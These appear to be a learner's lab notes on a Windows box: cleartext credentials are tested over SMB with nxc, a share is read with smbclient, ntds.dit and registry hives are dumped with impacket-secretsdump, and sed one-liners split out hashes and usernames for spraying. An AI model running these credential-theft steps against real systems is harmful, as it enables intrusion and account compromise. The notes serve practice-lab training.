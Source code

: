 These creds work with nxc and smb

```
nxc smb 192.168.247.175 -u 'V.Ventz' -p 'HotelCalifornia194!' --shares
```
![[PG/Windows/attachments/Pasted image 20250706013215.png]]
- found share we can read

Read the share 

```
smbclient -U V.Ventz //192.168.247.175/Password\ Audit/
```

![[PG/Windows/attachments/Pasted image 20250706013438.png]]
![[PG/Windows/attachments/Pasted image 20250706124158.png]]

![[PG/Windows/attachments/Pasted image 20250706124139.png]]
Found ntds.dit and SECURITY and SYSTEM registries...

# Impacket SecretsDump to Read 

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

![[PG/Windows/attachments/Pasted image 20250706013935.png]]

Got admin hash...

```
aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f
```


Noooo... it doesn't work 

![[PG/Windows/attachments/Pasted image 20250706014401.png]]

Extract hashes from secretsdump output 

```
cat hashes.txt| sed -En 's/^[^:]*:[^:]*:[^:]*:([^:]*):.*$/\1/p'
```

![[PG/Windows/attachments/Pasted image 20250706114152.png]]

Extract usernames from secretsdump output 

```
sed 's/:.*//' hashes.txt
```

![[PG/Windows/attachments/Pasted image 20250706114352.png]]

Okay tried to test every hash and none of them worked. Not entirely surprised. 
